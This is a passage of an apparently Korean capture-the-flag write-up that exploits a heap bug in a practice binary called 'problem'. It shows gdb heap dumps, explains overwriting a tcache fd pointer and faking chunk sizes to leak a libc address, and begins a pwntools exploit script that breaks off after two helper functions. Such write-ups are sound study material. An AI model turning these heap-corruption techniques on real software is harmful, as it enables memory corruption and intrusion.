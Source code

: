 ```bash
0x5555555596b0:	0x0000000000000000	0x0000000000000000
0x5555555596c0:	0x0000000000000000	0x0000000000000000
0x5555555596d0:	0x0000000000000000	0x0000000000000000
0x5555555596e0:	0x0000000000000000	0x0000000000000000
0x5555555596f0:	0x0000000000000000	0x0000000000000000
```

이 상태에서 `Keyboard`를 1번 할당받아 보자.

```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x555555559740 (size : 0x208c0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0xc0)   tcache_entry[10](0): 0x6161616161616100 (invaild memory)
```

이 상태에서 `Keyboard`를 1번 더 할당받으면 Segmentation fault가 뜨면서 프로그램이 죽는다. `0x6161616161616100`이라는 주소에 접근할 수 없기 때문이다. fd를 조작할 수 있음을 알았으니, 의미 있는 주소를 찾아서 적어 주면 그 주소에 fake chunk를 할당받아서 값을 자유롭게 덮어쓸 수 있을 것이다.

---

이제 메모리 릭을 할 수 있는 방법을 찾아보자. PIE와 ASLR 때문에 모든 주소가 랜덤하게 매핑된다. 힙에서 libc leak을 하는 대표적인 방법은 해제된 청크가 unsortbin으로 들어갈 때 fd와 bk 영역에 `main_arena()`의 중간 주소가 들어가는 것을 이용하여 그 값을 뽑아내는 것인데, tcache에는 그런 특성이 없다.  `0xc0` 바이트 청크를 unsortbin으로 보내려면 7개를 먼저 tcache에 넣고 다른 청크를 해제시켜야 하는데, 정상적인 방법으로 할당받을 수 있는 `0xc0`바이트 청크는 7개뿐이다. 그렇기 때문에 사이즈를 조작하는 등의 방법을 통해서 `0xc0`바이트 청크를 8개 이상 해제시켜야 한다.

`Vocal` - `Guitar` - `Keyboard` - `Vocal` - `Trumpet` - `Bassist` -  `Bassist` -  `Bassist` - `Keyboard` - `Keyboard` - `Keyboard`

앞에서부터 순서대로 할당받은 상황을 생각해 보자.

먼저 뒤의 `Bassist` 3개와 `Keyboard` 3개를 해제시켜서 `0xc0`byte tcache를 6개 채운다. 그리고 2번째 `Vocal`로 `Trumpet`의 사이즈를 `0xc1`로 바꾼 다음 `Trumpet`을 해제시키면, 이 청크는 `0xc0`byte tcache의 7번째 청크가 될 것이다. 이후 앞쪽의 `Keyboard`를 해제하면 이 청크는 unsortbin에 들어가고 fd와 bk 영역에 libc leak을 할 수 있는 값이 들어갈 것이다.

1번째 `Vocal`로 `Guitar`의 사이즈를 `0x61`로 바꾼 다음 `Guitar`를 해제시키고, `Drummer`를 할당받으면 우리는 그 주소부터 `0x50`바이트만큼의 입력을 받을 수 있다. 그러면 libc 주소가 있는 필드까지 `"\x00"`이 없도록 연결할 수 있고, `See()`를 통해 릭에 성공할 수 있을 것이다.

```python
# exploit_problem.py

from pwn import *

p = process('./problem')

def See():
    p.recvuntil(">\n")
    p.sendline("1")

def Join(wannabe, memo):
    p.recvuntil(">\n")
    p.sendline("2")
    p.recvuntil(">\n")
    p.sendline(str(wannabe))
    p.recvuntil("> ")
    p.send(memo)

```